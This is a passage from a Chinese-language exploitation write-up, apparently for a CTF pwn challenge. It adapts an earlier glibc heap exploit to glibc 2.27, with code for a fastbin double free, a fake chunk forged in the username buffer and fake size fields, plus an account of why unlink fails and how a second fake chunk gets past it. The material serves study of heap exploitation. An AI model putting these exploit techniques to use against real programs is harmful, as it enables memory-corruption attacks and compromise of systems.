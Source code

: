 二是 glibc 的版本从 2.25 变成了 2.27；

三是程序没有像之前一样泄漏 glibc 的地址；

首先我们先 copy 过来之前的 exploit，在这基础上进一步修改

```
username = p64(0) + p64(0x21)
io.sendline(username)
io.recvuntil("> ")

large = malloc(0x5fff8,'aaaa')
free(mem)
large = malloc(0x5fff8,'aaaa')

fast_A = malloc(0x18,'aaaa')
fast_B = malloc(0x18,'bbbb')

free(fast_A)
free(fast_B)
free(fast_A)

malloc(0x18, p64(elf.sym.username))

consolidate = malloc(0x88, 'cccc')
free(consolidate)

fake_size = 0x80001
amend_username(p64(0)+p64(fake_size))
malloc(0x80008, 'dddd')

fake_size = 0xfffffffffffffff1
amend_username(p64(0)+p64(fake_size))

```

直接运行一下，不出意外的在触发 consolidate 时报错

出错的原因也就是 unlink 时出的错

*   堆管理器首先顺着 fastbin 的 fd 找到了 username 的部分；
*   之后从 username 伪造的 chunk 向下找这个 nextchunk
*   这时找到的是一块空的区域，这里 size 字段是全零，堆管理器接着找这个 nextchunk 的下一个 chunk，我们暂且称为 nnchunk
*   发现 nnchunk 的 prev_inuse 字段为 0，堆管理器以为 nextchunk 也是 free 的，可以和 fake chunk 合并
*   于是触发了 unlink，在 unlink 的 unsortedbin size 检查时报错

这里没办法设置 fake chunk 的 size 为 1 绕过，但是可以尝试设置 fake chunk 后面的内容，在这后面再伪造一个 chunk 出来

```
username = p64(0) + p64(0x21) + p64(0)*2+p64(0x20) + p64(0x10) + p64(0) + p64(0x21)

```

这样运行之后就成功将这个 chunk 放入到了 unsortedbin 中

![](https://static.hack1s.fun/images/2021/12/13/image-20211213171150499.png)
